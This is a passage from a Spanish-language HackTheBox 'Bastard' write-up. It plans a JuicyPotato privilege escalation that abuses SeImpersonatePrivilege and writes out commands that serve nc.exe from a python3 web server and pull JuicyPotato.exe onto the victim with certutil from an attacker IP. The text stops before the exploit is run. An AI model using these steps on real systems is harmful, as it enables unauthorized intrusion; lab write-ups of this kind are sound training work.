 Como puntos importantes, vemos lo siguiente:

* Windows 2008 R2 Datacenter de 64 bits.
* Token **SeImpersonatePrivilege** habilitado.

> Más información sobre [Abusing Tokens](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

Con eso ya podemos empezar a pensar en [JuicyPotato](https://github.com/ohpe/juicy-potato) para la explotación de este token. Descargamos el binario desde [Releases](https://github.com/ohpe/juicy-potato/releases/tag/v0.1) y lo transferimos a la máquina víctima con un servidor web **python3**.

1. Primero nos moveremos a ```C:\Windows\Temp``` y crearemos la carpeta ```privesc``` para alojar el binario.
2. Luego levantaremos el server web de **python3** compartiendo **nc.exe**.
   * ```python3 -m http.server 80```
3. Descargaremos **JuicyPotato.exe**.
   * ```certutil.exe -f -split -urlcache http://10.10.14.12/JuicyPotato.exe```

![](/images/HTB/Bastard/35-download-juicy.png)
